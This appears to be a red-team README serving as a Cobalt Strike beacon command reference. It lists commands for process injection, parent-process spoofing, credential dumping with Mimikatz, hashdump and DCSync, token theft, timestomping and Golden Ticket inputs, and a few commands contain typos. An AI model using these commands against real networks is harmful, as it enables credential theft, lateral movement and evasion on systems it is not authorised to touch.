 <p align="center">
  <img width="700" height="150" src="https://github.com/bigb0sss/RedTeam/blob/master/CobaltStrike/cs_logo.png">
</p>

## Command References

### Beacons
#### Sleep
```
sleep 60 50               ; Sleep 60 sec with 50% of jitter (Call back between 30 to 60 secs randomly) 
```

#### Command Execution
##### Default
```
run [command]
```
##### powershell.exe
```
powershell-import [/path/to/your.ps1]       ; Running it from your localhost
powershell [cmdlet] [args]
```
##### powerpick (Using PS w/o powershell.exe)
```
powrepick [cmdlet] [args]
```

##### psinject (Using PS within another process)
```
psinject [PID] [x86|x64] [cmdlet] [args]
```

##### .NET
```
execute-assembly [/path/to/your.exe]        ; Running it from your localhost
```

##### cmd.exe
```
shell [command] [args]
```

#### Session Passing
```css
spawn [x86|x64] [Listener]
inject [PID] [x86|x64] [Listener]
```

#### Parent Process Modification
```
ppid [Choice of your parent process (e.g., iexplore.exe)]
spawnto [x86|x64] [New parent process]
```

#### SMB Beacn
```
spawn [SMB-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") SMB beacon 
inject [PID] [x86|x64] [SMB-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```

#### TCP Beacn
```
spawn [TCP-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") TCP beacon 
                                            ; TCP beacons can be also run locally by clicking "Bind to localhost only" on GUI
inject [PID] [x86|x64] [TCP-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```
#### Credentials and Hashes
```
logonpasswords                              ; Run Mimikatz
hashdump                                    ; Get SAM database hashes
```

#### Mimikatz
```
mimikatz [command] [args]                   ; Runs a Mimikatz command
mimikatz ![command] [args]                  ; Elevate to SYSTEM and run Mimikatz command
mimikatz @[command] [args]                  ; User current token to run Mimikatz command
```
#### DCSync
```
dcsync [domain] [DOMAIN\user]
```

#### File Download
```
download [file]
cancel [file|*]
downloads
View --> Downloads --> Sync Files
```

#### File Upload
```
upload [/path/to/file]
timestomp [Destination] [Source]            ; Changing file's timestamps (*Do not recommend using it during the engagement) 
```

#### Token Stealing
```
ps                                          ; List process
steal_token [PID]                           ; Stealing token
getuid                                      ; Identify/confirm who you are
rev2self                                    ; Drop/revoke token

spawnas DOMAIN\user password                ; Spawn a beacon w/ alternative creds
make_token DOMaIN\user password             ; Create a token. So when you do a make_token, when you do 'whoami' you will 
                                            ; still see your current user account; however, if you do a remote 'whoami' 
                                            ; (maybe against DC) you will see that the maked token user.
```

#### Kerberos Tickets
```
klist                                       ; See your current Kerberos tray 
kerberos_ticket_purge                       ; Purge tickets
kerberos_ticket_user [/path/to/file.ticket] ; Load a ticket

<Golden Ticket>
- Desired user and DOMAIN name
- Domain SID [whoami /user + drop last number]
- NTLM hash of krbtgt user from DC
```
